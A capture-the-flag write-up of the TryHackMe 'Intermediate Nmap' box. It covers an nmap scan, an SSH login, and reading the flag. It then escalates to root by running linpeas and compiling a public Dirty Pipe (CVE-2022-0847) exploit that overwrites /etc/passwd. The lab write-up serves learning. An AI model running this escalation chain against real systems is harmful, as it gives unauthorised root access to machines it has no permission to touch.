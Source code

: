 # write-up - Intermediate-Nmap
The website tryhackme is a ctf website. It proposes us some boxes to attack and to get flag out of it.

The challenge called Intermediate Nmap is an easy and short challenge (can be done in less than five minute) but we can still learn from it.

In this write up I am gonna go further and get the PE to root.

## Scanning
The scanning will be done with nmap (yes 4 real).

The parameters of nmap will be
```
-A -p- <ip>
```
-A = scan all the versions, will be very help full

-p-= try all the ports (why u may ask, “is listening in the high port” the box says)

Here is the output of this command

![image](https://user-images.githubusercontent.com/48420953/191597272-b581d8a9-5a44-4dcd-8cc4-1900b8e0d8ee.png)

We can already see a user and a password. (Have I already told u, it is an easy and short box).

We can also see that the ssh is the only opened port and X11 belongs to ssh(graphical)

## Connect into the machine

Let’s try to connect to the machine with ssh
```
ssh ubuntu@10.10.29.157 -p 22
```
The pw is required

And we are in

![image](https://user-images.githubusercontent.com/48420953/191597765-9d037880-2fc7-4bc4-8de2-a77cba9e0786.png)

## Finding the Flag

So now, let’s go to the / of the machine and let’s find where the flag is.
```
cd
```
We can go in the home dir and ls to see all the users.
```
cd home
ls
```

it will return us this

![image](https://user-images.githubusercontent.com/48420953/191598281-bcc0953e-b28d-42e6-aaf5-f0b2eb8694e8.png)

Let’s go in user and ls, we will find flag.txt, let’s cat it

![image](https://user-images.githubusercontent.com/48420953/191598440-9cf136b1-2838-4a8c-8b8a-e80d1f9ca8f0.png)

And we have the working flag.

But this challenge is so short that I need at least to get the PE.

## Getting the PE

We gonna scp [linpeas](https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh) in the ubuntu’s user dir.

```
scp linpeas.sh ubuntu@<ip>:/home/ubuntu
```

It is done, get back in the ubuntu dir
```
cd /home/ubuntu
```

Give the execution properties to the linpeas script
```
chmod +x linpeas.sh
```

and execute the script

```
./linpeas.sh
```

We can already see a CVE

![image](https://user-images.githubusercontent.com/48420953/191599448-22e10f01-3244-48c6-a03f-cf5556b46628.png)

The [CVE-2022-0847](https://github.com/Al1ex/CVE-2022-0847) is a PE CVE

We just have to compilate the c script and execute it in the machine.

First we scp the script in the ubuntu's dir.

```
scp CVE-2022-0847.c ubuntu@<ip>:/home/ubuntu
```

In the Machine, we must compilate it
```
gcc CVE-2022-0847.c -o cve
```

Now it execute it
```
./cve /etc/passwd 1 ootz:
```

we just need to switch user to rootz and we are good
```
su rootz
whoami
```

here is the proof

![image](https://user-images.githubusercontent.com/48420953/191600373-d994a7e4-a497-4463-b0c3-097bfb479281.png)
